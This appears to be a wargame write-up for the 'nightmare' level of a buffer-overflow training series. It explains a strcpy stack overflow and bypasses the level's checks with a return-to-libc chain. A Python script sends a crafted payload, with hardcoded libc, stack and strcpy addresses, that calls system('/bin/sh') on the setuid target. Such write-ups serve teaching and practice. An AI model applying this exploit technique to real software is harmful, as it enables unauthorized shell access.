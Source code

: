 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary so I can overwrite SFP & RET address.

The protection code is:
```c
// check address
addr = (char *)&strcpy;
if(memcmp(argv[1]+44, &addr, 4) != 0){
  printf("You must fall in love with strcpy()\n");
  exit(0);
}

// dangerous waterfall
memset(buffer+40+8, 'A', 4);
```
I have to use strcpy function and I cannot use strcpy's return address.

# Exploitation
First, I found strcpy address:
```
0x8048721 <main+109>:	push   %eax
0x8048722 <main+110>:	call   0x8048410 <strcpy>
0x8048727 <main+115>:	add    $0x8,%esp
```
strcpy's address: 0x08048410

Now, I will give payload in buffer and use strcpy function to copy that payload on strcpy's ret address.

The payload will be:
```
-------------------------------------------------------------------------------------------------------------------------------------------------
| system's address | AAAA | system's param(/bin/sh) | "A"*32 | strcpy's address | "AAAA" | strcpy's ret address(dst) | buffer's address(source) |
-------------------------------------------------------------------------------------------------------------------------------------------------
```
In C code, strcpy's ret address is filled with "A"*4 but in this payload, use strcpy function to bypass that waterfall("AAAA") by copy buffer(source) to waterfall(AAAA(source)).

# Payload
```python
import os

filename = "/home/succubus/nightmare"

payload = ""
payload = payload + "\xe0\x8a\x05\x40" # system's address
payload = payload + "A"*4 # system's ret address
payload = payload + "\xf9\xbf\x0f\x40" # system's param(/bin/sh)
payload = payload + "A"*32 # dummy
payload = payload + "\x10\x84\x04\x08" # strcpy's address(ret)
payload = payload + "A"*4 # waterfall(strcpy's ret address)
payload = payload + "\xa0\xfa\xff\xbf" # strcpy's dst(strcpy's ret)
payload = payload + "\x70\xfa\xff\xbf" # strcpy's source(buffer)

os.execv(filename, [filename, payload])
```
